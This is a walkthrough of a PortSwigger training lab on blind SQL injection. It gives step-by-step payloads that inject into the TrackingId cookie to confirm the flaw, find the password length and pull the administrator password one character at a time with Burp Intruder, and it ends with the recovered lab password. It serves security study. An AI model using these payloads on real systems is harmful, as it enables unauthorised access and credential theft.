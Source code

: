 **Lab: Blind SQL injection with conditional responses** - [**Link:**](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)


**Goal:**
Exploit a blind SQL injection vulnerability to extract the **administrator** password using conditional responses.
Login as **administrator** to solve the lab.


**Step-by-step:**

### 1. Confirm SQL Injection

Inject into the `TrackingId` cookie:

* `TrackingId=abc' AND 1=1--` → **Welcome back** (response present)
* `TrackingId=abc' AND 1=2--` → **No welcome back** (response different)

→ **Parameter is vulnerable to blind SQLi.**


### 2. Confirm target

Challenge says there is a table called `users` with columns `username` and `password`.
We want to extract the **administrator** password.


### 3. Find Password Length

Use payloads like:

```
TrackingId=abc' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password) > N) = 'administrator'--
```
(Here N = Natural Number)


Start increasing `N` manually or use Burp Intruder:

* **Intruder Position:** `TrackingId=abc' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password) > §1§) = 'administrator'--`
* **Payload type:** Numbers from 1 to 30

→ Observe when the "Welcome back" disappears.
→ My Result: Response changes after 20 → password is likely **20 characters** long.


### 4. Extract the Password (Brute-force)

#### Check 1 character at a time using `SUBSTRING()`:

```
TrackingId=abc' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator') = 'a'-- 
```

Use **Burp Intruder** to automate:

* **Attack type:** Cluster bomb
* **Position:**

  ```
  TrackingId=abc' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator') = '§2§'-- 
  ```
* **Payload 1:** Numbers from 1 to 20
* **Payload 2:** Brute Forcer (lowercase + digits)

→ When the **response length** changes, record that character.
→ Repeat for all 20 positions.


### 5. Final Result

After completing the attack, retrieved password:

```
Password: 5o5xy0pbiosl2grktqd8
```

Login with:

* **Username:** administrator
* **Password:** 5o5xy0pbiosl2grktqd8


✅ **Lab Solved**
